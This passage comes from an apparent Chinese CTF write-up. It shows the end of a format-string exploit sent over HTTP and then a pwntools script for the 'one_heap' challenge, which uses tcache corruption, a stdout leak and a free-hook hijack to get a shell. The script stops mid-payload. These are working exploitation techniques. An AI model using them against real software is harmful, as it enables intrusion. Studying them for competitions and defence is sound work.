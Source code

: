 ```python
}
requests.get(registered, params=params)
req = requests.get(profile)
passwd = req.text.lstrip('Welcome, ').rstrip('Your introduction: AAAAAAA')

params = {
    username: '%2$0141d%1$n',
    password: passwd
}
requests.get(login, params=params)
```

<a name="one_heap"></a>
### one_heap

> 出题人：zoniony
> 解题人数：11
> 最终分数：666


1. tcache perthread corruption
1. attack stdout leak libc base
1. hijack free hook
1. getshell

Brute-force attack:1/256  _just_ a few minutes XD

```python
from pwn import *

context.log_level = "debug"

bin = ELF("one_heap")
#libc = bin.libc
libc = ELF("libc-2.27.so")

def Debug(cmd=""):
    gdb.attach(p)
    #pause()

def add(size,content):
    p.sendlineafter("choice:", "1")
    p.sendlineafter("size:", str(size))
    p.sendlineafter("content:", content)

def delete():
    p.sendlineafter("choice:", "2")

def pwn(p):
    add(0x40,"")
    delete()
    delete()
    add(0x40,"\x10\x70")
    add(0x40,"")
    add(0x40,p64(0)*4+p64(0x0000000007000000))
    delete()
    add(0x40,"")
    add(0x18,p16(0x2760))
    #Debug()
    payload  = ""
    payload += p64(0xfbad3c80) #_flags= ((stdout->flags & ~ _IO_NO_WRITES)|_IO_CURRENTLY_PUTTING)|_IO_IS_APPENDING
    payload += p64(0)          #_IO_read_ptr
    payload += p64(0)          #_IO_read_end
    payload += p64(0)          #_IO_read_base
```